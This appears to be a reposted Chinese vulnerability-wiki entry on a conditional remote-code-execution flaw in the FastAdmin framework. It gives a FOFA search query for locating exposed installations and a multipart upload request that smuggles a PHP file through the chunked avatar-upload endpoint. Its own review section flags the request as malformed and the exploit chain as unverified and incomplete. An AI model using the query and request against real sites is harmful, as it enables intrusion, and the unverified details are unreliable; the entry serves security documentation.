

## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：No range; low-priv user and chunking true documented

代码与实验材料：One multipart chunk request with correct field names but missing Content-Type boundary/closing delimiter; no merge step/text result

来源证据范围：Researcher WeChat and nosec4713

- **事实待核（1）**：Only uploads .part; no merge/execution stage so RCE reproduction incomplete。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **证据待核（2）**：Missing affected/fixed release and webroot conditions。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# FastAdmin 远程代码执行漏洞

## 漏洞描述

FastAdmin 是一款基于 ThinkPHP 和 Bootstrap 的极速后台开发框架。FastAdmin 框架存在有条件 RCE 漏洞，当攻击者具有一定用户权限的前提下，可以实现任意文件上传，导致 RCE。

参考链接：

- https://mp.weixin.qq.com/s/otrH75ZjCHBQbRB7g5DdWg
- https://nosec.org/home/detail/4713.html

## 网络测绘

```
app="FASTADMIN-框架" || body="\"uploadurl\":\"ajax\/upload\"" || body="api.fastadmin.net" || body="\"fastadmin\":{\"usercenter\":true" || body="content=\"FastAdmin\"" || body="cdnurl\":\"\",\"version"|| icon_hash="-1036943727"
```

## 漏洞复现

前期准备：

1. 该接口至少需要普通用户权限，可以先在前台注册一个用户然后登录。
2. 需要修改默认配置才能使用分片上传功能。设置 application/extra/upload.php 下的 chunking 项为 true。
3. 可使用 application/index/controller/Ajax 下的 upload() 方法作为入口点。根据 tp5 的路由，访问该入口点的 url 为 index.php?s=index/ajax/upload。

上传头像处 post：

```
//传入xx.php
POST /index/ajax/upload HTTP/1.1
Host: target

------WebKitFormBoundarybw5c2a2bqlLLOMEU
Content-Disposition: form-data; name="file"; filename="Xnip2021-04-02_11-05-27.png"
Content-Type: application/octet-stream

PNG
...
<?php phpinfo();?>
------WebKitFormBoundarybw5c2a2bqlLLOMEU
Content-Disposition: form-data; name="chunkid"

xx.php

------WebKitFormBoundarybw5c2a2bqlLLOMEU
Content-Disposition: form-data; name="chunkindex"

0
------WebKitFormBoundarybw5c2a2bqlLLOMEU
```




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
